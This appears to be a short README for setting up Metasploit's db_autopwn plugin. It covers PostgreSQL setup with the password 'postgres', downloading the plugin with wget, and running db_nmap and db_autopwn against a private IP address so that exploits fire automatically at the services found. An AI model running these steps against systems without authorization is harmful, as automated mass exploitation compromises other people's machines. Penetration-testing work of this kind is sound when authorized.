 ![autopwn](https://raw.githubusercontent.com/0e9/metaspliot-autopwn/master/1.png)

### 1. setup postgresql

```
service postgresql start
sudo -u postgres psql postgres
postgres=# alter user postgres with password 'postgres';
postgres=# \password postgres
postgres=# \q
```

### 2. connect postgres

```
msf> db_disconnect
msf> db_connect postgres:postgres@127.0.0.1/postgres
msf> db_status
```

### 3. install db_autopwn

```
msf> load db_autopwn
[-] Failed to load plugin from /opt/metasploit-framework/embedded/framework/plugins/db_autopwn
wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
cp db_autopwn.rb /opt/metasploit-framework/embedded/framework/plugins/
msf> load db_autopwn
[*] Successfully loaded plugin: db_autopwn
```

### 4. use db_autopwn

```
msf> db_nmap -sV -O -v -T 5 192.168.5.123
msf> db_autopwn  -e  -t  -r  -p
```

### Reference
```
https://github.com/hahwul/metasploit-autopwn/blob/master/README.md
http://www.cnblogs.com/zlslch/p/6881649.html
```

